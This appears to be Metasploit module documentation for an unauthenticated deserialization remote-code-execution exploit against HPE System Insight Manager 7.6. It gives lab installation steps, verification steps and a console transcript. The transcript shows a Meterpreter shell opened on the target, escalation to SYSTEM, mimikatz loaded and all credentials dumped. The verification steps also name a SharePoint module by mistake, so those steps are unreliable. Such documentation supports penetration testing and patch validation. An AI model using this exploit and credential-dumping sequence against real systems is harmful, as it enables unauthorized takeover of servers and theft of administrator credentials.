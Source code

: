 ## Vulnerable Application
A remotely exploitable vulnerability exists within HPE System Insight Manager (SIM) version 7.6.x that can be
leveraged by a remote unauthenticated attacker to execute code within the context of HPE System Insight
Manager's `hpsimsvc.exe` process, which runs with administrative privileges. The vulnerability occurs due
to a failure to validate data during the deserialization process when a user submits a POST request to
the `/simsearch/messagebroker/amfsecure` page.

This module exploits this vulnerability by leveraging an outdated copy of Commons Collection, namely
3.2.2, that ships with HPE SIM, to gain RCE as the administrative user running HPE SIM.

### Installing HP SIM 7.6
1. Set up a Windows Server 2016 VM.
1. Sign up for a HP login if you do not have one already. You can use a throw away email address here.
1. Download HPE SIM from https://myenterpriselicense.hpe.com/cwp-ui/download/swd/product/details/HPSIM-Win-7.x.
1. Search for `Turn Windows Features On or Off`, select `Role-based or feature-based installation`, and click `Next`, until you see `Select features`.
1. Check `SNMP Service` and `.NET Framework 3.5 Features`, and click `Next`, then `Install`. You may need to be connected to the internet to install .NET 3.5.
1. Download SQL Server 2016 SP2 Express from https://www.microsoft.com/en-us/download/details.aspx?id=56840 and run the installer.
1. Open `Computer Management` and then go to `Computer Management (Local)->Services and Applications->SQL Server Configuration Manager->SQL Server Network Configuration->Protocols for SQLEXPRESS` and double click on `TCP/IP`.
1. Set `Enabled` to `Yes` under the `Protocol` tab.
1. Click on the `IP Addresses` tab and set all `TCP Dynamic Ports` fields from `0` to an empty field, and set all `TCP Port` fields to `1433`. Then click the `Apply` button.
1. Restart the SQL service by running `sc stop MSSQL$SQLEXPRESS` and then after a few seconds, run `sc start MSSQL$SQLEXPRESS`
1. Run the HPE SIM installer and when it gets to the `Database Configuration` page, it should default to `Use SQL/SQL Express`.
1. Ensure at this point that the username is `Administrator` (or whatever the name of the administrative user you are installing as is), and the `Domain` and `Host` values are correct, and that the port is `1433`.
1. For the `Password` field, enter the password of the `Administrator` (or whatever the name of the administrative user you are installing as is), and click the `Next` button.
1. Click `Typical` under the installation option and then select `Next`.
1. On the `Service Account Credentials` screen, enter the password for the `Administrative` user and click `Next`. Then click `Install`.
1. Wait for installation to complete, this could take up to 30 min.
1. Verify that you can view https://127.0.0.1:50000/simsearch/messagebroker/amfsecure and that the page returns a HTTP 200 OK response code.

## Verification Steps

1. Install the application ensure port 50000 is open on the target and that the `/simsearch/messagebroker/amfsecure` page is accessible.
1. Start msfconsole
1. Do: `use exploit/windows/http/sharepoint_data_deserialization`
1. Set the `RHOSTS` option.
1. Set the `TARGET` option if desired.
1. Set an appropriate payload for the `PAYLOAD` option.
1. Set any additional options as required by the previously selected payload
1. Run the exploit

## Options

## Scenarios

### SIM_7.6_Z7550-96287 on Server 2016

```
msf6 > use exploit/windows/http/hpe_sim_76_amf_deserialization
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/hpe_sim_76_amf_deserialization) > set TARGET 1
TARGET => 1
msf6 exploit(windows/http/hpe_sim_76_amf_deserialization) > set PAYLOAD windows/x64/meterpreter/bind_tcp
PAYLOAD => windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/http/hpe_sim_76_amf_deserialization) > set RHOSTS 172.29.199.4
RHOSTS => 172.29.199.4
msf6 exploit(windows/http/hpe_sim_76_amf_deserialization) > show options

Module options (exploit/windows/http/hpe_sim_76_amf_deserialization):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.29.199.4     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      50000            yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the HPE SIM server
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     172.29.199.4     no        The target address


Exploit target:

   Id  Name
   --  ----
   1   Windows Powershell


msf6 exploit(windows/http/hpe_sim_76_amf_deserialization) > exploit

[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Found an active amfsecure endpoint on the target!
[*] Started bind TCP handler against 172.29.199.4:4444
[*] Sending stage (200262 bytes) to 172.29.199.4
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.29.199.4:4444) at 2021-03-02 18:32:55 -0600

meterpreter > getuid
Server username: WIN-QKA9JKS5MVU\Administrator
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > sysinfo
Computer        : WIN-QKA9JKS5MVU
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain           NTLM                              SHA1
--------       ------           ----                              ----
Administrator  WIN-QKA9JKS5MVU  *censored*                        *censored*

wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
Administrator     WIN-QKA9JKS5MVU  (null)
WIN-QKA9JKS5MVU$  WORKGROUP        (null)

kerberos credentials
====================

Username                 Domain           Password
--------                 ------           --------
(null)                   (null)           (null)
Administrator            WIN-QKA9JKS5MVU  (null)
MSSQL$SQLEXPRESS         NT Service       (null)
SQLTELEMETRY$SQLEXPRESS  NT Service       (null)
win-qka9jks5mvu$         WORKGROUP        (null)


meterpreter >
```

